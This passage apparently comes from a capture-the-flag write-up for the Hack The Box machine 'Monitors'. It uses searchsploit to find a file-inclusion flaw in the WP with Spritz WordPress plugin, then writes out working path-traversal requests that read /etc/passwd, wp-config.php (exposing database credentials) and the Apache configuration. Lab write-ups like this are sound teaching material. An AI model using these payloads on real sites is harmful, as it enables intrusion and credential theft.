 In the folder _wp-content/plugins_ is a folder for a plugin called _wp-with-spritz_.

Searching for vulnerabilities for this plugin:
```
searchsploit spritz

WordPress Plugin WP with Spritz 1.0 - Remote File Inclusion
```

There is a **Remote File Inclusion** vulnerability for the plugin and that can be tested by getting the contents of the _/etc/passwd_ file:
```
http://monitors.htb/wp-content/plugins/wp-with-spritz/wp.spritz.content.filter.php?url=/../../../../etc/passwd
```

The WordPress configuration can be found in the file _wp-config.php_ and the credentials could be useful:
```
GET /wp-content/plugins/wp-with-spritz/wp.spritz.content.filter.php?url=../../../wp-config.php HTTP/1.1
Host: monitors.htb
(...)
```
```
(...)
/** The name of the database for WordPress */
define( 'DB_NAME', 'wordpress' );

/** MySQL database username */
define( 'DB_USER', 'wpadmin' );

/** MySQL database password */
define( 'DB_PASSWORD', 'BestAdministrator@2020!' );
(...)
```

Getting contents of the **Apache** default configuration:
```
GET /wp-content/plugins/wp-with-spritz/wp.spritz.content.filter.php?url=../../../../../../etc/apache2/sites-available/000-default.conf
```
```
# Add monitors.htb.conf
# Add cacti-admin.monitors.htb.conf
(...)
```

There is another hostname _cacti-admin.monitors.htb_ that has to be added to the _/etc/hosts_ file to access it.
